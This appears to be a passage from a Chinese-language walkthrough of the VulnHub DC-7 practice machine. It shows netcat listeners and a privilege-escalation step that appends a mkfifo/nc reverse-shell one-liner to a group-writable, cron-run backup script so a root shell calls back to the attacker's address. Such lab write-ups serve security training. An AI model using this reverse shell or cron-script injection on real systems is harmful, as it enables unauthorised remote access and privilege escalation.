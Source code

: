 kali 监听
```
nc -lvp 4444
```

点击 preview,成功回弹

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC7/16.png)

---

# 后期-提权

和 dc7user 这个用户一样, www 用户也啥吊权限没有,只好把希望放在之前的备份脚本上

```
cd /opt/scripts/
ls -l
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC7/17.png)

可见文件属组为 www-data,组权限 rwx,我们可以对脚本进行修改,期望通过定时任务尝试提权

kali 监听
```
nc -lvp 5555
```

写入 payload
```
cd /opt/scripts/
echo "mkfifo /tmp/bqro; nc 192.168.141.134 5555 0</tmp/bqro | /bin/sh >/tmp/bqro 2>&1; rm /tmp/bqro" >> /opt/scripts/backups.sh
cat backups.sh
```

耐心等待几分钟,就反弹回来了

